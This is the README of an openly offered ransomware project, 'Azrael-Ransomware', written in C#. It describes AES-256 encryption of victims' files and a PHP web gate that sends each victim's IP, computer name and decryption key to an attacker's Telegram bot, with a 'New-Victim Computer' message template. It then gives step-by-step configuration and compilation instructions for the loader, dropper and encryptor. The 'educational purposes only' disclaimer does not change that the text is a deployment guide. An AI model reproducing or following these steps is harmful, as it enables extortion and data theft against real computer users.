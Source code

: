 # Azrael-Ransomware
![CSHARP](https://img.shields.io/badge/Language-CSHARP-aqua?style=for-the-badge&logo=CS)
![](banner.png)

## 📑 About
```
This is a simple ransomware-example writed in C#.
Yes, many functions and its implementation is weak, but I think this example is worth being.
```
### 💾 Features:
 * Size: 800kb
 * Using Algorithm for Encryption: AES-256
 * Uses a gateway to redirect encrypted information and the unlock key, sending it directly to the telegram bot.
 * Divided into modules: Loader, Encryptor, Form(include decrypt-function) 

## 🏴‍☠️ Video-Fragment
https://github.com/K3rnel-Dev/Azrael-Ransomware/assets/132711888/ecfe921a-0321-4062-baa0-2e6eb6e9bc1c


## 💻 Working Graph
<p float="left">
  <img alt="screen" width="700" src="Working_graph.png">
</p> 

## How to use?
 * Create bot in telegram: @BotFather and get your chatid with bot @getmyid_bot
 * Put this data in web-gate(src/WebResender/gate.php)
 ```php
$botToken = 'YOUR-TELEGRAM-BOT-TOKEN';
$chatId = 'YOUR-TELEGRAM-CHAT-ID';
$message = "[🏴‍☠️] New-Victim Computer!\nIP: $API_IP\nPC: $PC\nKey: $key";
 ```
 * And change url to your web-gate(src/Azrael_Form/Azrael/Algorithms/config.cs):
 ```csharp
public static readonly string UrlServer = "http://127.0.0.1/resender.php"; // Your web-gate
 ```
 * Then compile the FORM(FORM.EXE) and encryptor(ENC.EXE) and then add these two resources to the loader, the main thing is that they are compatible with the names
 (src/Azrael_Loader/Modules/Dropper.cs):
```csharp
16 File.WriteAllBytes(encPath, Properties.Resources.enc);
26 File.WriteAllBytes(formPath, Properties.Resources.Form);
```
 * After this, compile the loader and the project compilation is complete!.
 * Note: (If you want, you can change the AES keys to your own).

 ### 🕸️ Notation (if ):
 > If you decide to rewrite this project, you will need .net framework 4 so that the application can run on multiple versions windows.

## ⚠️ Disclaimer - this project for education and purposes only!
```
This open-source example ransomware is provided for educational purposes only. 
The author assumes no responsibility for any misuse or illegal activities performed with this software.
Users are solely responsible for ensuring that their use of this tool complies with all applicable laws and regulations.
```
